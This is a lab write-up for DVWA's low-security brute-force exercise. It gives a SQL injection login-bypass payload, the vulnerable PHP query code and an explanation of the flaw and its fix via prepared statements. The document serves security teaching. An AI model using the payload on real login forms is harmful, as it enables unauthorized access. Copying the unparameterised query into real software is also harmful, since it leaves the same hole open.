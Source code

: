 # Brute Force - Low 

---

## Attack Steps

1. Open the target page in the browser: 
    - http://<ip address>/dvwa/vulnerabilities/brute/

2. Enter the following credentials 

    ```sql
    Username: admin' or '1'='1 -- 
    Password: anything # Change the password to whatever
    ```

3. Observe login message 

    ```bash 
    Welcome to the password protected area admin' or '1'='1 --
    ```

--- 

## Vulnerable Code Analysis 

### File: 
`/var/www/dvwa/vulnerabilities/brute/source/low`

#### Key Vulnerability Points:

```php 

    $user = $_GET['username'];
    
    $pass = $_GET['password'];
    $pass = md5($pass);

    $qry = "SELECT * FROM `users` WHERE user='$user' AND password='$pass';";
    $result = mysql_query( $qry ) or die( '<pre>' . mysql_error() . '</pre>' ); 
```

### Explanation 
- The code is taking direct user input `$user = $_GET['username'];/$pass = $_GET['password'];`. The password is hashed using MD5 `$pass = md5($pass);` before the username and password hash is inserted into the SQL query.

- This can be exploited using the payload ' or '1'=1 --: 
    - The query will become "SELECT * FROM `users` WHERE user=' ' or '1'=1 -- ".
    - The ' ' will be ignored and the boolean value will always be true. 
    - The `--` will comment out the password section 

- Causes: 
    - No input validation or sanitisation on $user or $pass so users can input anything
    - Direct insertion of user input into queries means queries can be modified
    - Not using prepared statements, prepared statements treat user input only as data rather than SQL code so even if SQL keywords are included they won't modify the queries  